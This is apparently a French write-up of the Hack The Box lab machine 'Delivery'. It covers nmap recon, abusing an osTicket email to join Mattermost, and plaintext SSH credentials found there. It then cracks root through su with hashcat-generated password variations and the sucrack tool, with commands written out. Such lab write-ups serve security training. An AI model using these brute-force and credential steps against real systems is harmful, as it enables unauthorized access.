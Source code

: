 # Delivery - Easy

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-28 17:10 EDT
Nmap scan report for 10.10.10.222
Host is up (0.018s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9c40fa859b01acac0ebc0c19518aee27 (RSA)
|   256 5a0cc03b9b76552e6ec4f4b95d761709 (ECDSA)
|_  256 b79df7489da2f27630fd42d3353a808c (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-title: Welcome
|_http-server-header: nginx/1.14.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.77 seconds
```

On va consulter le site, on lance un gobuster en fond, il est mentionné une page spéciale mattermost ainsi qu’un helpdesk [http://helpdesk.delivery.htb/](http://helpdesk.delivery.htb/) avec un nom de domaine que l’on rajoute à notre hosts: [http://delivery.htb:8065/](http://delivery.htb:8065/)

Sur le helpdesk on tombe sur OsTicket qui semble être en version avant 1.12 d’après les commentaires dans le code source. On peut créer un ticket et il semble que cela nous donne un email temporaire:

```bash
You may check the status of your ticket, by navigating to the Check Status page using ticket id: 9626186.

If you want to add more information to your ticket, just email 9626186@delivery.htb.

Thanks,

Support Team
```

On peut donc accéder à notre ticket avec le numéro et l’adresse bidon rentrée précedemment. On peut consulter les mails. On va donc créer un compte mattermost avec l’adresse corporate associée à notre ticket.

On rejoint alors la team internal et on a accès à un chat avec un mot de passe

```bash
Credentials to the server are maildeliverer:Youve_G0t_Mail!
```

On se connecte donc en ssh, on obtient le flag user, on upload linpeas mais rien de fou.

Dans le mattermost il est suggérer de faire attention à ce que les hash des mdp ne soient pas trouvés même si PleaseSubscribe! n’est pas dans rockyou. Nous allons utiliser https://github.com/hemp3l/sucrack pour essayer de cracker le mdp avec su.

On compile les fichiers:

```bash
autoreconf -f -i
./configure
make
```

Il nous faut aussi une wordlist à base du mdp de base:

```bash
vi pw #on met le mdp
hashcat --stdout pw -r /usr/share/hashcat/rules/best64.rule > pwlist
```

On a donc toutes les variations, maintenant on peut upload le fichier et enfin on execute:

```bash
./sucrack -a -w 20 -s 10 -u root -rl AFLafld pwlist
```

On obtient le mdp root et le flag